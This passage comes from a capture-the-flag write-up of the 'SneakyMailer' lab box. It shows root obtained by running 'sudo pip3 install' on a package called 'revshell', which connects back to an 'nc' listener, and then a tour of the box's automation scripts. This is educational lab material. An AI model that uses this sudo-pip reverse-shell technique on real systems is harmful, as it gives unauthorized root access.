     
    low@sneakymailer:/dev/shm$ sudo pip3 install .
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /dev/shm
    Building wheels for collected packages: revshell
      Running setup.py bdist_wheel for revshell ... -
    

It hangs here, but at a `nc` listener there’s a root shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:57612.
    # id  
    uid=0(root) gid=0(root) groups=0(root)
    

And I can grab `root.txt`:

    
    
    # cat root.txt
    19eb3f51************************
    

## Beyond Root

There’s a _ton_ of automation in this box. I’m not going to go through it all,
but I’d recommend that you do (it’s still available to free users for the
first two weeks post retirement). There’s a folder with scripts that each user
runs:

    
    
    root@sneakymailer:/opt/scripts# find . -type f
    ./vmail/imap-user-login.py        <-- send POST to links
    ./vmail/restore-sent-mail-box.py  <-- keep only two messages in mailbox
    ./low/install-module.sh           <-- runs python $1 install
    ./low/install-modules.py          <-- checks for packages, downloads, calls install-module.sh, cleans up
    ./developer/clean-ftp.py          <-- removes webshells and other uploads
    

These scripts are well done, and worth reading.

What I found interesting and wanted to highlight here is _how_ they run. I
checked crons and systemd timers, and no sign of them. I would see in the
process list that vmail and developer both always had `sleep` processes, which
but no parent process that like a script in an infinite loop.

It turns out that the box author uses services in a clever way to make these
periodic scripts. Each service is defined in `/etc/systemd/system`:
